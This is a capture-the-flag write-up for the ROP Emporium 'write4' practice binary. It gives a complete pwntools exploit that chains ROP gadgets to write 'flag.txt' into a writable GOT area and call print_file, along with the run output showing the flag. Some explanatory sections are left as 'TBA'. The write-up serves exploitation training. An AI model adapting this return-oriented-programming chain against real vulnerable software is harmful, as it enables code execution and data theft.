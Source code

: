 # 4 write4

This challenge gives you an approach on read and write permissions in the running binary (writing data to GOT such as "flag.txt" in our case).
[challenge link](https://ropemporium.com/challenge/write4.html) using 64-bit binary.

## Understanding

TBA

## Objective

1. find pattern length (same as first [challenge](https://github.com/l0x539/CTFs-writeups/tree/master/ropemporium/ret2win)).
2. find the gadgets needed to write to an address memory.
3. find print\_file plt address (automated with pwtools).
4. chain the ropes.
5. exploit.

## Understanding the gadgets needed to write to an address and read from it

TBA

## Recon

Same as first [challenge](https://github.com/l0x539/CTFs-writeups/tree/master/ropemporium/ret2win).

Running `$ rabin2 -SS write4` gives the sections with read, write, execute permissions (we're only interested in r and w).

## Execution

TBA

## Writing exploit

in a file called [exploit.py](https://github.com/l0x539/CTFs-writeups/blob/master/ropemporium/write4/exploit.py)

with [pwntools](http://docs.pwntools.com/en/stable/) on python3.

* Imports:

```python3
from pwn import cyclic, process, ROP, ELF, p64
```

* Running and load binary file:

```python3
_FILE = "./write4"

p = process(_FILE)
binary = ELF(_FILE, checksec=False)
```

* Roping the binary:

```python3
rop = ROP(binary)
```

* Assigning gadgets that laods from the stack

```python3
pop_r14_r15 = rop.find_gadget(["pop r14", "pop r15", "ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]                      # or 0x00400692
```

* Load from the stack to a memory location:

This instruction copies content of r15 to an address pointed by r14.

```python3
pop_qword_r14 = 0x400628 # rop.find_gadget(["mov QWORD PTR [r14], r15", "ret"])[0]   # or 0x00400628 is open file argument
```

* The address to write to our string "flag.txt\0":

it's close to `pwnme@plt` but making sure it don't overwrite `print_file@plt`

```python3
pwnme_got =  binary.got['pwnme'] + 16 # 0x00600e00  # we gonna write "flag.txt" in this address +16 cause we don't wanna overwrite print_file got.plt address
```

* `print_file@plt` address to call:

```python3
print_file = binary.plt['print_file']
```

* The string to load in the stack and then to an address the to pass as an argument:

string should look like `string = "flag.txt" + "\x00"`, and that's what the next two python lines are doing.

```python3
flag_txt_str = b"flag.txt" # 8 characters
EOL = p64(0x0)             # adding null character at the end right after flag.txt so the file reader can open it.
```

the string should look like in the written address for the file to be opened:
```
<pwnme@got+16 addr>  flag.txt
<pwnme@got+24 addr>  NULL BYTE + WHATEVER WAS THERE
```

null byte at the end of string is important!

* Crafting the payload:

creating pattern of 40 characters `"A"*40`

```python3
# chaining
payload = cyclic(40, n=8)       # generating 40 characters pattern
```

* Loading Null Byte to the desired address that has write perms (in GOT table):

```python3
## add null character right after the string ==> string[1] = "\x00"*8
payload += p64(pop_r14_r15)
payload += p64(pwnme_got+1)
payload += EOL      # load this string to rdi (aka argument)
payload += p64(pop_qword_r14)
```

* Loading flag.txt same way:

```python3
## adding flag.txt ==> string[0] = "flag.txt";    notice that flag.txt is 8 character, if it was only 7 we could've got rid of the previous part doing string = "lag.txt\x00"
payload += p64(pop_r14_r15)
payload += p64(pwnme_got)
payload += flag_txt_str      # load this string to rdi (aka argument)
payload += p64(pop_qword_r14)
```

* Calling `print_file` with the argument:

that's similar to `print_file("flag.txt")`

```python3
## passing flag.txt\0 as an argument to print\_file
payload += p64(pop_rdi)
payload += p64(pwnme_got)
payload += p64(print_file)

```

* Sending payload and receiving output:


```python3
# interacting and sending payload
print(p.recvuntil("> ").decode("latin-1"))

p.sendline(payload)

# printing output
print(p.clean().decode("latin-1"))
```

Out put gives:

```
$ python3 exploit.py 
[+] Starting local process './write4': pid 27379
[*] Loaded 13 cached gadgets for './write4'
[*] pwnme: 0x601028
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> 
Thank you!
ROPE{a_placeholder_32byte_flag!}

```

And we got the flag!
